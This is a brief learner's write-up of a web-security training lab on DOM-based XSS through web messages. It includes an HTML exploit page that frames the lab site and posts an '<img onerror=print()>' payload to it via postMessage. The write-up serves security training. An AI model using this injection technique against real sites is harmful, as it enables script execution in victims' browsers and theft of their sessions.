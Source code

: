 # Practitioner Lab 93: DOM XSS using web messages

---

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

![Untitled](Practitioner%20Lab%2093%20DOM%20XSS%20using%20web%20messages%206bb5d85db59a4d199dc2286e9fcadf54/Untitled.png)

I started to play with the console and got this. I don’t really know a lot of javascript but since I know python and C I was able to play around enough to get the logic .

![Untitled](Practitioner%20Lab%2093%20DOM%20XSS%20using%20web%20messages%206bb5d85db59a4d199dc2286e9fcadf54/Untitled%201.png)

```
<head>
	<style>
		#target_website {
			position:relative;
			width:1000px;
			height:1000px;
			opacity:1;
			z-index:2;
			}
		
	</style>
</head>
<body>
	
	<iframe id="target_website"  src="https://0a9000c60494f0aa80c7cb5400ea00dd.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=0 onerror=print()>','*')"></iframe>
</body>
```

Using the following payload I was able to solve the lab. 

I used this to see the full iframe and then be able to see how it changed.